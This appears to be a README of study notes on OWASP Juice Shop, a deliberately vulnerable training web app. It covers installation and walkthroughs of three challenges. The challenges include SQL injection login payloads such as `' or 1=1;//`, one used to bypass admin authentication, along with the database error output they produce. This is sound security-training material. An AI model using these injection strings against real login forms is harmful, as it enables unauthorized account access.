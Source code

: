 # Juice Shop Project
* Top ten security things in OWASP
* Exploited vulnerabilities in developing websites
* How to translate to spring
* Understand OWASP top 10
* Evaluate Juice Shop
* Open Web Appliation Security Project

## Installation
* [Running OWASP Juice Shop](https://bkimminich.gitbooks.io/pwning-owasp-juice-shop/content/part1/running.html)
* Install [Node.js](http://nodejs.org/)

```
git clone https://github.com/bkimminich/juice-shop.git
cd juice-shop
npm install
npm start
```
* The server begins listening on [port 3000](localhost:3000) by default
`' or 1=1//`
## What is being served?
* A virtual market which vends _mostly_ foods; particularly punny ones.
	* _Raspberry Juice made of Raspberry Pi Microcontrollers_
* Much like amazon, ebay, etsy, etc.



## Objective
* Awareness session
* To demonstrate what Average Joe sees from a typical virtual market
* To demonstrate how Hacker Joe can abuse and eventually break



## Why another broken webapp?
* First application written entirely in JS listed in [OWASP VWA Directory](https://www.owasp.org/index.php/OWASP_Vulnerable_Web_Applications_Directory_Project)
* First broken webapp that uses the currently popular architecture of an SPA/RIA frontend with a RESTful backend

## What is OWASP?
* **OWASP**
	* Open
	* Web
	* Application
	* Security
	* Project

## What tools may be helpful?
* ZAP or BURP can be useful, but most automated scanners won't help much


## Challenges
### Challenge 1 - Find Scoreboard
* Navigate to `localhost:3000` to view the Juice Shop.
* Open console
* Open source view via the `CMD+U` shortcut.
* Open find-in-page via the `CMD+F` shortcut.
* Search for the string `score-board`
* Navigate to the respective `anchor` tag's `href` [attribute](http://localhost:3000/#/score-board).

### Challenge 2 - Provoke an error that is not gracefully handled
* Navigate to Juice Shop
* Log out
* Log in using
	* **Email:** `' or 1=1//`
	* **Password:** `_`
* Upon clicking the `login` button, an error message reveals a respective user and password

```JSON
{

    "error":{
        "message":"SQLITE_ERROR: near \"/\": syntax error",
        "stack":"SequelizeDatabaseError: SQLITE_ERROR: near \"/\": syntax error\n at Query.formatError (/Users/myUsername/dev/juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:423:16)\n at afterExecute (/Users/myUsername/dev/juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:119:32)\n at replacement (/Users/myUsername/dev/juice-shop/node_modules/sqlite3/lib/trace.js:19:31)\n at Statement.errBack (/Users/myUsername/dev/juice-shop/node_modules/sqlite3/lib/sqlite3.js:16:21)",
        "name":"SequelizeDatabaseError",
        "parent":{
            "errno":1,
            "code":"SQLITE_ERROR",
            "sql":"SELECT * FROM Users WHERE email = '' or 1=1//' AND password = 'b14a7b8059d9c055954c92674ce60032'"
        },
        "original":{
            "errno":1,
            "code":"SQLITE_ERROR",
            "sql":"SELECT * FROM Users WHERE email = '' or 1=1//' AND password = 'b14a7b8059d9c055954c92674ce60032'"
        },
        "sql":"SELECT * FROM Users WHERE email = '' or 1=1//' AND password = 'b14a7b8059d9c055954c92674ce60032'"
    }

}
```


### Challenge 3 - Login as in Admin
* Navigate to Juice Shop
* Log out
* Log in using
	* **Email:** `' or 1=1;//`
	* **Password:** `_`
* Upon clicking the `login` button you should receive an challenge-achievement for logging in as an Administrator.



## Resources
* [Wiki page](https://www.owasp.org/index.php/OWASP_Juice_Shop_Project)
* [Bkimminich's Git-Page](https://bkimminich.gitbooks.io/pwning-owasp-juice-shop/content/part1/challenges.html)
